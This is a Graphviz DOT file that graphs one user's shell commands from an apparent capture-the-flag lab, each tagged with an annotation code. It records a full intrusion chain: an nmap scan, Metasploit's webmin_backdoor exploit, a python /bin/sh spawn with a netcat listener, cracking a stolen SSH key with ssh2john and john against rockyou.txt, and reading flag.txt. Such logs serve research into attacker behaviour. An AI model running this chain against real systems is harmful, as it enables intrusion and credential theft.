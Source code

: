 // creating graph for user: 44
digraph {
	node [shape=box]
	0 [label="nmap --help A0 A1 "]
	1 [label="nmap -v 172.18.1.5 M0 "]
	2 [label="msfconsole M2 "]
	3 [label="search webmin M3 "]
	4 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	5 [label="show options M5 "]
	6 [label="set rhosts 172.18.1.5 A6 "]
	7 [label="run M8 "]
	8 [label="set lhost 10.1.135.83 A6 "]
	9 [label="run M8 "]
	10 [label="cd /root/.ssh A16 "]
	11 [label="cd .ssh A16 "]
	12 [label="ls A10 "]
	13 [label="ls -la A10 "]
	14 [label="ssh-keygen -t rsa A16 "]
	15 [label="show options M5 "]
	16 [label="run M8 "]
	17 [label="python -c 'import subprocess; p=subprocess.call([/bin/sh A13 "]
	18 [label="nc -nvlp 225 U"]
	19 [label="cd . U"]
	20 [label="cd .. U"]
	21 [label="ls -la A10 "]
	22 [label="ls A10 "]
	23 [label="ls -la A10 "]
	24 [label="ls -a A10 "]
	25 [label="ls -l A10 "]
	26 [label="ssh eve@10.1.17.4 --help M16 "]
	27 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	28 [label="chown key.eve 0644 U"]
	29 [label="chmod key.eve 0644 A15 "]
	30 [label="chmod 0644 key.eve A15 "]
	31 [label="ls A10 "]
	32 [label="chmod 0644 eve.key A15 "]
	33 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	34 [label="sudo ssh -i eve.key eve@10.1.17.4 M16 "]
	35 [label="chmod 0700 eve.key A15 "]
	36 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	37 [label="ssh2john eve.key > eve.hash A14 A16 "]
	38 [label="locate ssh2john.py A1 A9 A10 A11 A12 A14 A16 A17 "]
	39 [label="python ssh2john.py eve.key > eve.hash M13 "]
	40 [label="ls A10 "]
	41 [label="cat eve.hash A1 A9 A11 A12 A17 "]
	42 [label="john eve.hash -wordlist=rockyou.txt A14 "]
	43 [label="locate rockyou.txt A1 A9 A10 A11 A12 A17 "]
	44 [label="john eve.hash -wordlist=/usr/share/wordlists/rockyou.txt A14 "]
	45 [label="ssh -i eve.key eve@10.1.17.4 M16 "]
	46 [label="ls A10 "]
	47 [label="ls -la A10 "]
	48 [label="cd top-secret/ U"]
	49 [label="ls -la A10 "]
	50 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	rankdir=LR
}
